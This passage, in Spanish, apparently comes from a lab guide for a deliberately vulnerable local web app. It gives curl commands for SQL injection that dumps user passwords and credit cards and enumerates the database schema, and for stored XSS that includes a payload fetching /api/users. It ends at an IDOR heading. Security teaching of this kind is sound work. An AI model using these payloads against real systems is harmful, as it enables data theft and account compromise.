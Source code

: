 ### 2. **SQL Injection en Búsqueda**

#### **Paso 1: Búsqueda Normal**
```bash
curl "http://localhost:3000/api/search?q=comentario"
```

#### **Paso 2: Extraer Datos de Usuarios**
```bash
curl "http://localhost:3000/api/search?q=test'%20UNION%20SELECT%20username,password,credit_card,email,role,phone,id%20FROM%20users--"
```

#### **Paso 3: Enumerar Base de Datos**
```bash
curl "http://localhost:3000/api/search?q=test'%20UNION%20SELECT%20sql,name,type,NULL,NULL,NULL,NULL%20FROM%20sqlite_master--"
```

### 3. **XSS en Comentarios**

#### **Paso 1: Comentario Normal**
```bash
curl -X POST http://localhost:3000/api/comments \
  -H "Content-Type: application/json" \
  -d '{
    "user_id": 1,
    "content": "Este es un comentario normal"
  }'
```

#### **Paso 2: Inyectar JavaScript**
```bash
curl -X POST http://localhost:3000/api/comments \
  -H "Content-Type: application/json" \
  -d '{
    "user_id": 1,
    "content": "<script>alert('\''XSS Vulnerability!'\'')</script>"
  }'
```

#### **Paso 3: XSS Avanzado**
```bash
curl -X POST http://localhost:3000/api/comments \
  -H "Content-Type: application/json" \
  -d '{
    "user_id": 1,
    "content": "<img src=x onerror=\"fetch('/api/users').then(r=>r.json()).then(d=>alert(JSON.stringify(d)))\">"
  }'
```

### 4. **IDOR - Acceso Directo a Usuarios**
